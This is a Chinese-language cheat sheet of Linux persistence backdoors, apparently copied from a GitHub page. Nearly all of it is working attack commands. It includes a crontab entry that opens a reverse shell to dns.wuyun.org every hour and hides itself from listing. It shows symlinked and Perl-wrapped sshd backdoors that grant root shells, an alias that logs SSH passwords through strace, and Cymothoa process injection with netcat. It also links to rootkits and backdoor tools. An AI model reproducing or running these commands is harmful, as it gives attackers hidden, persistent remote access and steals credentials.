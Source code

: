 #### Linux 
##### crontab 
每60分钟反弹一次shell给dns.wuyun.org的53端口
```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```
##### 硬链接sshd 
```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```
链接：ssh root@192.168.206.142 -p 2333
##### SSH Server wrapper 
```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
```
```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```
##### SSH keylogger 
vim当前用户下的.bashrc文件,末尾添加
```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```
source .bashrc
##### Cymothoa_进程注入backdoor 
```
./cymothoa -p 2270 -s 1 -y 7777
```
```
nc -vv ip 7777
```
##### rootkit

* [openssh_rootkit](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
* [Kbeast_rootkit ](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)
* Mafix + Suterusu rootkit

##### Tools

* [Vegile ](https://github.com/Screetsec/Vegile)
* [backdoor ](https://github.com/icco/backdoor)
